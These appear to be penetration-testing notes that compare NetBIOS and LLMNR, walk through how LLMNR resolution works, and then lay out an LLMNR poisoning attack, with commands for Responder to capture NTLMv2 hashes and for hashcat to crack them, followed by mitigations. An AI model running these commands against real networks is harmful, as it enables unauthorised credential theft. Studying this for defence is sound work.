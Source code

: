## NetBIOS vs. LLMNR

| Feature                | NetBIOS                                                                                                                   | LLMNR                                                                                            |
| ---------------------- | ------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------ |
| **Purpose**            | Provides network communication services, including name resolution and session management in legacy Windows environments. | Resolves hostnames to IP addresses on a local network when DNS is not available.                 |
| **Usage**              | Primarily used in older Windows networks for resource sharing and communication.                                          | Used in modern Windows environments for local name resolution.                                   |
| **Protocol Type**      | Legacy protocol with several services including NetBIOS Name Service (NBNS).                                              | Part of the Link-Local Multicast Name Resolution protocol suite.                                 |
| **Name Resolution**    | Uses NetBIOS Name Service (NBNS) to resolve names to IP addresses.                                                        | Uses multicast to resolve names to IP addresses on the local network.                            |
| **Security Risks**     | Vulnerable to NetBIOS spoofing attacks, where attackers impersonate services to intercept data.                           | Vulnerable to LLMNR spoofing attacks, where attackers respond to queries with false information. |
| **Scope**              | Operates on both local and remote networks, traditionally within Windows networks.                                        | Limited to local networks (link-local), generally within the same subnet.                        |
| **Modern Replacement** | Mostly replaced by DNS for name resolution and other modern network services.                                             | Often replaced by DNS or turned off in favor of more secure name resolution practices.           |
| **Network Traffic**    | Can generate significant traffic due to its broad use in legacy environments.                                             | Typically generates minimal traffic, only used for local name resolution.                        |

## How LLMNR works?

| **Step**                  | **Action**                                                                   | **Details**                                                                                                                                    | **Result**                                                      |
| ------------------------- | ---------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------- |
| **Connect to Network**    | Device connects to the network via DHCP                                      | Jane’s laptop connects to a café’s Wi-Fi, receives an IP address, subnet mask, default gateway, and DNS server addresses from the DHCP server. | Jane’s laptop is assigned an IP address like `192.168.1.15`.    |
| **DNS Resolution**        | Device queries DNS servers for external domain names                         | Jane’s laptop queries the DNS server at `8.8.8.8` for `www.example.com` to resolve it to an IP address.                                        | DNS server returns the IP address `93.184.216.34`.              |
| **LLMNR Usage**           | If DNS fails for local names, LLMNR is used to resolve local names           | Jane’s laptop queries the local network for `printer1` using LLMNR, as DNS does not have a record for it.                                      | LLMNR resolves `printer1` to the IP address `192.168.1.20`.     |
| **Network Communication** | Device communicates with servers or resources based on resolved IP addresses | Jane’s browser connects to `93.184.216.34` for web content, and her laptop sends print jobs to `192.168.1.20`.                                 | Website loads, and print job is processed by the local printer. |

## LLMNR ATTACK

```
1. Run Responder (Morning or after lunch)
2. An event occur
3. Capture Hash
4. Crack Hash
```

Run Responder to capture hash (*Ensure HTTP and SMB are ON*)
```
sudo responder -I <NIC> -dPv
```

When an event is triggered, NTLMv2 Hash will be captured.

Crack NTLMv2 Hash
```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --show
```
**Note:** In a virtual machine, hash-cracking tasks typically rely on the CPU, which is not as efficient for this purpose. Graphics cards (GPUs), with their superior parallel processing capabilities, are the primary drivers for efficient hash-cracking.

## Mitigation
- **Disable Multicast Name Resolution (LLMNR):** Prevents the exploitation of LLMNR for name resolution poisoning attacks.
- **Turn off NetBIOS over TCP/IP:** Reduces the risk of NetBIOS Name Service (NBT-NS) spoofing, which can lead to unauthorized access to network resources.


